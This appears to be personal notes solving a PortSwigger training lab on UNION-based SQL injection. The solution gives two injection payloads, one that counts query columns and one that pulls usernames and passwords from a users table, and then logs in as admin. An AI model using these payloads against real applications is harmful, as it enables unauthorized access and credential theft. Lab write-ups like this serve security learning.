 [Source](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)
## Task
This lab contains a SQL injection vulnerability in the product category filter. The query results are returned in the application response, so we can use a `UNION` attack to extract data from other tables. To build such an attack, we need to combine some of the techniques we learned in previous labs.

There is another table in the database called `users` that contains `username` and `password` columns.

To solve the lab, perform a `UNION` SQL injection attack that will extract all usernames and passwords, and then use this information to log in as the admin user.
## Solution
Go to the site
![[Pasted image 20241201185020.png]]
Determine how many columns there are
```SQL
'+UNION+SELECT+NULL,NULL--
```
![[Pasted image 20241201185159.png]]
Do SQL-Injection
```SQL
'+UNION+SELECT+username,password+FROM+users--
```
![[Pasted image 20241201185424.png]]
Log in as admin
![[Pasted image 20241201185450.png]]
![[Pasted image 20241201185512.png]]